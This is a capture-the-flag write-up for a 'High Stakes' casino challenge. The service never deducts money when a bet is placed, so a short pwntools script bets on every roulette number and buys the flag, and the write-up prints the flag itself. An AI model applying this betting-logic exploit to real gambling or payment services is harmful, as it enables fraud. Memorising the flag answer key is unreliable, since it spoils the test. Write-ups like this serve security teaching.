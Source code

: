 # High Stakes

### Category

Pwn

### Description

This casino is SOOOO totally rigged. 
I have lost everything .. I literally lost 300 times in a row !
This does not seem possible.
I really wanted to buy the flag from the shop, but right now I'm so broke I'm not even allowed to think about it.
Lucky as you are, you'll manage to win enough money to buy it for me, right bro ?

Format : **Hero{flag}**
Author : **iHuggsy**

### Write up

We see that a flag costs 3600$. We have 100$ to begin with.

If we bet normally, we lose. The casino seems rigged.

After a bit of poking around, we see that there's a logic vulnerability : the program doesn't take any money for placing a bet.

We can then bet 100$ on all of the numbers, and we'll win for sure.

We just have to buy the flag from the shop afterwards.

```py
from pwn import *
import time

def microsleep():
    pass

p = process(['nc', '161.97.134.238', '7000'])
time.sleep(5)
print(p.clean())

for i in range(37):
    p.sendline('1')
    microsleep()
    print(p.clean())
    p.sendline(str(i))
    microsleep()
    print(p.clean())
    p.sendline('100')
    microsleep()
    print(p.clean())

p.sendline('3')
print(p.clean())
microsleep()
p.sendline('4')
print(p.clean())
microsleep()
p.sendline('5')
print(p.clean())
microsleep()
p.sendline('3')
print(p.clean())
```

### Flag

Hero{g4MBl1nG_f0R_dA_fL4G}